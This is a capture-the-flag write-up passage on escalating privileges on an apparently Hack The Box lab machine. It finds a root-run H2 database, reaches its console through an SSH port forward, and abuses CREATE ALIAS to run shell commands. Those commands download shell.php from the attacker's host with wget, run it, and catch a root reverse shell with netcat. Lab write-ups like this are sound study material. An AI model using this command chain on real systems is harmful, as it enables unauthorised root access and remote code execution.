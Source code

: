 To find out if there are cronjobs running(sudo -l said that user daniel is not allowed to run sudo on the machine) we upload pspy64s and run it.We find that a jar file is being executed:
```s
2021/08/10 10:36:20 CMD: UID=0    PID=763    | /usr/lib/accountsservice/accounts-daemon 
2021/08/10 10:36:20 CMD: UID=0    PID=758    | /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar 
2021/08/10 10:36:20 CMD: UID=0    PID=757    | /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar 
2021/08/10 10:36:20 CMD: UID=0    PID=755    | /usr/sbin/CRON -f 
```
This reminds us of the H2 database in port 8082 which we didn't have permission to access.Maybe we can only access it locally on the machine so we port forward it and access it.
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ ssh -L 8082:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)
```
After this we google a little bit and find this example from [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/h2-java-sql-database) where we can connect via a user unauthenticated, so I give /root and connect .

After this I found this [great page](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html) which shows how to execute commands on h2 database so I ran these commands:

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('wget http://10.10.14.34/shell.php')

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('php shell.php')
```
Make sure to keep a python server running so that we can upload it via wget. And we see that the terminal we were listening has got a reverse shell:

```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.102] 34754
Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 11:11:50 up  1:35,  2 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/2    10.10.14.34      10:33   33:36   0.30s  0.02s /bin/bash
daniel   pts/3    10.10.14.34      10:40   30:38   0.06s  0.00s /bin/bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat root.txt
```
Root flag is in /root/root.txt